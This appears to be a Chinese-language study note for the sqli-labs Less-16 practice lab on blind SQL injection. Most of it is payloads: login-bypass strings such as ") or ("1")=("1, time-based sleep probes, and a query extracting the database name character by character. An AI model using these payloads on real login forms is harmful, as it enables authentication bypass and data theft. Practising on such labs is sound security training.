 



布尔型盲注最好先猜出他们网站有什么用户名，以一个正确的用户名来当参照
admin") and (select database()='security') #







# less16

`\`

不显示结果



但是尝试报错注入也不显示报错内容

——尝试盲注



判断闭合方式

```
”) or 1=1 #
```

用户名和密码都写：

```
") or ("1")=("1
```

实际上是：

```
select username,password from table1 where username=("") or ("1")=("1") and password=("") or ("1")=("1") limit 0,1;
```



或：

```
") or sleep(5) #
") and sleep(5) #
```

也可以穷举：

```
admin") and sleep(5) #
```

也可以猜：

```
admin") and (select database()='security') #

admin") and if(ascii(substr(database(),1,1))=115,sleep(10),null) #
```
